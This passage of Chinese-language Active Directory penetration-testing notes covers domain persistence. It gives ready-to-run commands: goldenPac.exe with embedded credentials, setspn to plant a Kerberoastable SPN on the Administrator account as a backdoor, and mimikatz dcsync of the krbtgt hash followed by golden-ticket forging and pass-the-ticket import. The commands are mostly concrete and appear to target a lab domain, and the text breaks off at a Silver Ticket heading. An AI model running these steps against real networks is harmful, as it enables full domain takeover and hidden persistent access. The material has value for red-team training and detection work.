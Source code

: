 
```
goldenPac.exe 0day.org/sqladmin:admin!@#45@OWA2010SP3.0day.org
```


![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1610208075109-ea675ce6-a7e6-4090-ac7c-5df850145562.png#align=left&display=inline&height=258&margin=%5Bobject%20Object%5D&name=image.png&originHeight=515&originWidth=749&size=62430&status=done&style=none&width=374.5)
## 域内权限维持
### Kerberoasting的后门利用
来自:[https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/)
在我们取得了SPN的修改权限后，可以为指定的域用户添加一个SPN，这样可以随时获得该域用户的TGS，经过破解后获得明文口令
例如为域用户`Administrator`添加`SPNVNC/DC1.test.com`，参数如下：
```cpp
setspn.exe -U -A VNC/DC1.test.com Administrator
```


在域内任意一台主机都能获得该SPN，并且能够使用Kerberoast获得TGS，如下图
再使用hashcat破解即可
删除SPN的参数如下：
```
setspn.exe -D VNC/DC1.test.com Administrator
```
### GoldenTicket
[https://github.com/uknowsec/Active-Directory-Pentest-Notes/blob/master/Notes/%E5%9F%9F%E6%B8%97%E9%80%8F-Ticket.md](https://github.com/uknowsec/Active-Directory-Pentest-Notes/blob/master/Notes/%E5%9F%9F%E6%B8%97%E9%80%8F-Ticket.md)


金票的生成需要用到krbtgt的密码HASH值
```
lsadump::dcsync /OWA2010SP3.0day.org /user:krbtgt
```
得到KRBTGT HASH之后使用mimikatz中的kerberos::golden功能生成金票golden.kiribi，即为伪造成功的TGT。
```
参数说明：

/admin：伪造的用户名

/domain：域名称

/sid：SID值，注意是去掉最后一个-后面的值

/krbtgt：krbtgt的HASH值

/ticket：生成的票据名称
```
SID是红框部分
![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1610208282886-efa3fd09-348e-45cb-a7d4-e956275e6bae.png#align=left&display=inline&height=499&margin=%5Bobject%20Object%5D&name=image.png&originHeight=998&originWidth=1770&size=151757&status=done&style=none&width=885)
```
kerberos::golden /admin:administrator /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /ticket:golden.kiribi
```
mimikatz导入利用
```
kerberos::purge
kerberos::ptt golden.kiribi
kerberos::list
```
### SilverTickets
制作银票的条件：
